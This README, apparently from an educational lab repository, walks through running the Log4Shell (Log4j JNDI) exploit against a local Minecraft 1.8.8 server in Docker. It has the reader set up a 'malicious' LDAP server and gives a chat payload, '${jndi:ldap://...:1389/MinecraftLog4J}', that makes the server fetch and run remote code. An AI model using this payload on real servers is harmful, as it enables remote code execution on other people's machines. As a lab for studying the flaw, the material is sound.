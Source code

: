 # Overview



## Setting up the environment

- Download [Docker](https://www.docker.com/products/docker-desktop/)
- Launch your [Minecraft](https://www.minecraft.net/en-us/download) game and install version 1.8.8 (Installations > New Installations > release 1.8.8).
- Install [Python 3+](https://www.python.org/downloads/)
- Java 8 ([build 181](https://archive.org/download/Java-Archive/Java%20SE%208%20%288u202%20and%20earlier%29/8u181/JDK/))

## Starting up the Minecraft server on Docker


0. `cd` to the current directory (where this README.md file is located)
1. Build the docker image:
```
docker build -t linux-server .
```
2. Run the docker image (iterative mode):
```
docker run -it -p 25565:25565 --name mcserver linux-server
```
If you wish to run locally, you could use:

```
java8 -Xms2G -Xmx2G -jar minecraft_server.1.8.8.jar
```

The command above will start up a Docker container that is running the minecraft server (`minecraft_server.1.8.8.jar`). 



## Starting up a Malicious Server

Now we will starup an LDAP server that will serve the exploit (`MinecraftLog4J.java`).

1. Build the docker file for the malicious server
```
docker build -f Dockerfile_evil_server -t evil-image .
```

2. Run the docker image 

```
docker run -it -p 1389:1389 -p 8000:8000 --name evil-server evil-image
```

## Connect to the Minecraft Server from the Host Machine

After running the Docker container, you should be able to connect to the Minecraft server from the host machine:

1. Launch the Minecraft game on your host machine (release 1.8.8).
2. Select "Multiplayer"
3. Click "Add Server" and enter the following:
- Server Name: Any name you like.
- Server Address: localhost (or 127.0.0.1).
- Save and click "Join Server" to connect.

4. Once in game, type in chat:

```
${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
```


You will see in the output of your Minecraft server docker, a message like this:

```
[HH:MM:SS] [Server thread/INFO]: <PlayerName> ${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
!!HACKED!! (OS = linux )
!!HACKED!! (OS = linux )
```

This means that the exploit did execute succesfully.



